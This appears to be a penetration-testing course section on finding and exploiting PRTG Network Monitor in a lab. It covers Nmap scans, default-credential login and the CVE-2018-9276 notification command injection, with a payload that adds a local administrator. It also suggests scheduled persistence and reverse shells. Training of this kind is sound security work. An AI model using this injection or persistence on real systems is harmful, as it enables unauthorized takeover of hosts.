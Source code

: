 # PRTG Network Monitor

[PRTG Network Monitor](https://www.paessler.com/prtg) is agentless network monitor software. It can be used to monitor bandwidth usage, uptime and collect statistics from various hosts, including routers, switches, servers, and more. The first version of PRTG was released in 2003. In 2015 a free version of PRTG was released, restricted to 100 sensors that can be used to monitor up to 20 hosts. It works with an autodiscovery mode to scan areas of a network and create a device list. Once this list is created, it can gather further information from the detected devices using protocols such as ICMP, SNMP, WMI, NetFlow, and more. Devices can also communicate with the tool via a REST API. The software runs entirely from an AJAX-based website, but there is a desktop application available for Windows, Linux, and macOS. A few interesting data points about PRTG:

* According to the company, it is used by 300,000 users worldwide
* The company that makes the tool, Paessler, has been creating monitoring solutions since 1997
* Some organizations that use PRTG to monitor their networks include the Naples International Airport, Virginia Tech, 7-Eleven, and [more](https://www.paessler.com/company/casestudies)

Over the years, PRTG has suffered from [26 vulnerabilities](https://www.cvedetails.com/vulnerability-list/vendor_id-5034/product_id-35656/Paessler-Prtg-Network-Monitor.html) that were assigned CVEs. Of all of these, only four have easy-to-find public exploit PoCs, two cross-site scripting (XSS), one Denial of Service, and one authenticated command injection vulnerability which we will cover in this section. It is rare to see PRTG exposed externally, but we have often come across PRTG during internal penetration tests. The HTB weekly release box [Netmon](https://0xdf.gitlab.io/2019/06/29/htb-netmon.html) showcases PRTG.

***

## Discovery/Footprinting/Enumeration

We can quickly discover PRTG from an Nmap scan. It can typically be found on common web ports such as 80, 443, or 8080. It is possible to change the web interface port in the Setup section when logged in as an admin.

```shell-session
$ sudo nmap -sV -p- --open -T4 10.129.201.50

Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-22 15:41 EDT
Stats: 0:00:00 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.06% done
Nmap scan report for 10.129.201.50
Host is up (0.11s latency).
Not shown: 65492 closed ports, 24 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8000/tcp  open  ssl/http      Splunkd httpd
8080/tcp  open  http          Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)
8089/tcp  open  ssl/http      Splunkd httpd
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.17 seconds
```

From the Nmap scan above, we can see the service `Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)` detected on port 8080.

PRTG also shows up in the EyeWitness scan we performed earlier. Here we can see that EyeWitness lists the default credentials `prtgadmin:prtgadmin`. They are typically pre-filled on the login page, and we often find them unchanged. Vulnerability scanners such as Nessus also have [plugins](https://www.tenable.com/plugins/nessus/51874) that detect the presence of PRTG.

<figure><img src="../../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

Once we have discovered PRTG, we can confirm by browsing to the URL and are presented with the login page.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://10.129.201.50:8080/index.htm</p></figcaption></figure>

From the enumeration we performed so far, it seems to be PRTG version `17.3.33.2830` and is likely vulnerable to [CVE-2018-9276](https://nvd.nist.gov/vuln/detail/CVE-2018-9276) which is an authenticated command injection in the PRTG System Administrator web console for PRTG Network Monitor before version 18.2.39. Based on the version reported by Nmap, we can assume that we are dealing with a vulnerable version. Using `cURL` we can see that the version number is indeed `17.3.33.283`.

```shell-session
$ curl -s http://10.129.201.50:8080/index.htm -A "Mozilla/5.0 (compatible;  MSIE 7.01; Windows NT 5.0)" | grep version

  <link rel="stylesheet" type="text/css" href="/css/prtgmini.css?prtgversion=17.3.33.2830__" media="print,screen,projection" />
<div><h3><a target="_blank" href="https://blog.paessler.com/new-prtg-release-21.3.70-with-new-azure-hpe-and-redfish-sensors">New PRTG release 21.3.70 with new Azure, HPE, and Redfish sensors</a></h3><p>Just a short while ago, I introduced you to PRTG Release 21.3.69, with a load of new sensors, and now the next version is ready for installation. And this version also comes with brand new stuff!</p></div>
    <span class="prtgversion">&nbsp;PRTG Network Monitor 17.3.33.2830 </span>
```

Our first attempt to log in with the default credentials fails, but a few tries later, we are in with `prtgadmin:Password123`.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://10.129.201.50:8080/welcome.htm</p></figcaption></figure>

***

## Leveraging Known Vulnerabilities

Once logged in, we can explore a bit, but we know that this is likely vulnerable to a command injection flaw so let's get right to it. This excellent [blog post](https://www.codewatch.org/blog/?p=453) by the individual who discovered this flaw does a great job of walking through the initial discovery process and how they discovered it. When creating a new notification, the `Parameter` field is passed directly into a PowerShell script without any type of input sanitization.

To begin, mouse over `Setup` in the top right and then the `Account Settings` menu and finally click on `Notifications`.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://10.129.201.50:8080/myaccount.htm?tabid=2</p></figcaption></figure>

Next, click on `Add new notification`.

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://10.129.201.50:8080/editnotification.htm?id=new&#x26;tabid=1</p></figcaption></figure>

Give the notification a name and scroll down and tick the box next to `EXECUTE PROGRAM`. Under `Program File`, select `Demo exe notification - outfile.ps1` from the drop-down. Finally, in the parameter field, enter a command. For our purposes, we will add a new local admin user by entering `test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add`. During an actual assessment, we may want to do something that does not change the system, such as getting a reverse shell or connection to our favorite C2. Finally, click the `Save` button.

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After clicking `Save`, we will be redirected to the `Notifications` page and see our new notification named `pwn` in the list.

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption><p>http://10.129.201.50:8080/myaccount.htm?tabid=2</p></figcaption></figure>

Now, we could have scheduled the notification to run (and execute our command) at a later time when setting it up. This could prove handy as a persistence mechanism during a long-term engagement and is worth taking note of. Schedules can be modified in the account settings menu if we want to set it up to run at a specific time every day to get our connection back or something of that nature. At this point, all that is left is to click the `Test` button to run our notification and execute the command to add a local admin user. After clicking `Test` we will get a pop-up that says `EXE notification is queued up`. If we receive any sort of error message here, we can go back and double-check the notification settings.

Since this is a blind command execution, we won't get any feedback, so we'd have to either check our listener for a connection back or, in our case, check to see if we can authenticate to the host as a local admin. We can use `CrackMapExec` to confirm local admin access. We could also try to RDP to the box, access over WinRM, or use a tool such as [evil-winrm](https://github.com/Hackplayers/evil-winrm) or something from the [impacket](https://github.com/SecureAuthCorp/impacket) toolkit such as `wmiexec.py` or `psexec.py`.

```shell-session
$ sudo crackmapexec smb 10.129.201.50 -u prtgadm1 -p Pwn3d_by_PRTG! 

SMB         10.129.201.50   445    APP03            [*] Windows 10.0 Build 17763 (name:APP03) (domain:APP03) (signing:False) (SMBv1:False)
SMB         10.129.201.50   445    APP03            [+] APP03\prtgadm1:Pwn3d_by_PRTG! (Pwn3d!)
```

And we confirm local admin access on the target! Work through the example and replicate all of the steps on your own against the target system. Challenge yourself to also leverage the command injection vulnerability to obtain a reverse shell connection from the target.

***

## Onwards

Now that we've covered Splunk and PRTG let's move on and discuss some common customer service management and configuration management tools and see how we can abuse them during our engagements.
